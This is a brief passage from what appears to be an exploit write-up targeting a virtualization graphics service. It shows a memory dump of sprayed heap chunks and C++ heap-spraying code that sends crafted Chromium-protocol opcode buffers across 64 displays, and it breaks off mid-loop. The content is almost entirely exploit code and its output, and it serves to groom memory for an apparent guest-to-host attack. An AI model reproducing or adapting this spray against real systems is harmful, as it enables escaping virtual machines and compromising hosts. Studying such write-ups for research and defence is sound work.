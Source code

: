```assembly
0x7f83cfd4f450:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f460:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f470:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f480:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f490:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f4a0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f4b0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f4c0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f4d0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f4e0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f4f0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f500:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f510:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f520:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f530:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f540:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f550:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f560:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f570:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f580:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f590:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f5a0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f5b0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f5c0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f5d0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f5e0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f5f0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f600:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f610:	0x00007f8485c3c403	0x0000000000000025
0x7f83cfd4f620:	0x00007f83cfd4f940	0x00007f83cfd4e020
0x7f83cfd4f630:	0x0000000007ffa000	0x0000000000000305
0x7f83cfd4f640:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f650:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f660:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f670:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f680:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f690:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f6a0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f6b0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f6c0:	0x00007f8485c3c403	0x00007f849fff1650
0x7f83cfd4f6d0:	0x00007f8485c3c403	0x00007f849fff1650
```
Here is the main part of the heap sprayer. It creates 64 displays and sprays 16384 chunks of size 0x2F8 holding the buffer shown above for each display.

```c++
for (uint32_t i = 0; i < 64; i++) {
	uint32_t currentBufferSize = 0x2F8;
	// We reinitialize the content of the buffer on each iteration not 		because it becomes dirty
	// but because without it the spraying is too fast and many of 			submitted buffers
	// are just ignored.
	for (uint32_t j = 0; j < 1024 * 16; j++) {
		*(pData + 3) = CR_EXTEND_OPCODE;
		*(uint32_t*)(pData + 4) = 0; // unused
		*(uint32_t*)(pData + 8)
			= CR_PROGRAMNAMEDPARAMETER4DVNV_EXTEND_OPCODE;
		*(uint32_t*)(pData + 12) = 0xFFFFFFFF; // id
		*(uint32_t*)(pData + 16) = currentBufferSize; // len
		*(uint64_t*)(pData + 20) = 0; // params[0]
		*(uint64_t*)(pData + 28) = 0; // params[1]
		*(uint64_t*)(pData + 36) = 0; // params[2]
		*(uint64_t*)(pData + 44) = 0; // params[3]
		const uint32_t bufferOffset = 52;
```